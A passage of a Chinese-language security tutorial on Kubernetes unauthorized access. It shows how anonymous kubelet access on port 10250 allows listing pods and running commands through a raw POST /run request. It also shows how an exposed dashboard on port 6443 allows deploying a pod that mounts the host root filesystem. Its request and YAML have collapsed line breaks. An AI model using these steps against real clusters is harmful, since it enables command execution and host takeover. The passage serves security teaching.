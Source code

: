 10250端口是kubelet API监听端口，负责从kube-apiserver接收指令和上报状态信息。  
  
正常访问10250端口提示未认证  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Q11SaBKBJunqxljhhqonXic7EsnlaDaReGZkOgScv38ibNHTIh4HdgBEj2bgmhXVxLy7vcpDzAL92GI2Y9w2RmxA/640?wx_fmt=jpeg&from=appmsg "")  
  
若配置文件中启用匿名访问，则会导致10250端口未授权  
  
/var/lib/kubelet/config.yaml  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Q11SaBKBJunqxljhhqonXic7EsnlaDaRemPVgE3AVXMTDaqsZkmm5n0zkS2zsRl6MB9PeO7GveJQ1vvjatlM7PA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Q11SaBKBJunqxljhhqonXic7EsnlaDaRe5pgYe1YC6cAxcLjkTicLRHR76LPJ51TPUhKUFvkMf0sibH1GfiaVu4ukQ/640?wx_fmt=jpeg&from=appmsg "")  
  
通过https://IP:10250/runningpods/ 获取三个参数：  
> namespace：对应metadata.namespace  
  
pod：对应metadata.name  
  
container:对应spec.containers.0.name  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Q11SaBKBJunqxljhhqonXic7EsnlaDaReUU0cQtHvjmeiaRvmzI4ficDXQkY2hxf9ECUJCZaCf5eeMGBHrtB8cjCQ/640?wx_fmt=jpeg&from=appmsg "")  
  
执行命令：  
```
POST /run/<namespace>/<pod>/<postgres> HTTP/1.1Host: x.x.x.x:10250User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateConnection: closeUpgrade-Insecure-Requests: 1Sec-Fetch-Dest: documentSec-Fetch-Mode: navigateSec-Fetch-Site: noneSec-Fetch-User: ?1Content-Type: application/x-www-form-urlencodedContent-Length: 10cmd=whoami
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Q11SaBKBJunqxljhhqonXic7EsnlaDaRefceh38TJjCCEHia4wsAE5Nudc8w4Pvme38cf0qicOlgmngf1yr2Wj42Q/640?wx_fmt=jpeg&from=appmsg "")  
## 0x04 Dashboard未授权访问  
  
K8s的Dashboard是以基于网页的K8s用户界面，用户可获得运行在集群中应用的概览信息，并且图形化操纵K8s资源。Dashboard默认不安装，并且手动安装后只能通过执行了kubectl proxy  
的机器进行访问，但是当使用的Dashboard配置不当，或者部署低版本的Dashboard时选择了"跳过"选项，可能会导致一些未授权访问漏洞，此外，通过K8s API，或者集群的单点登录等方式访问Dashboard。  
  
通过6443端口进行访问：  
  
https://IP:6443/api/v1/namespaces/kubernetes-dashboard/services/https:kubernetes-dashboard:/proxy/#/workloads?namespace=default  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Q11SaBKBJunqxljhhqonXic7EsnlaDaReQ8oqciac3iaNbgSjsASIdznnfHkktZPlj1Fxknx1tYlVGqSP7obc3ueg/640?wx_fmt=png&from=appmsg "")  
  
创建一个特权Pod，并且挂载宿主机根路径到/sechost下  
  
配置文件：  
```
apiVersion: v1kind: Podmetadata:  name: sectest1spec:  containers:  - name: hostpath-container    image: nginx:1.14.1    volumeMounts:    - name: hostpath-volume      mountPath: /sechost  volumes:  - name: hostpath-volume    hostPath:      path: /
```  
  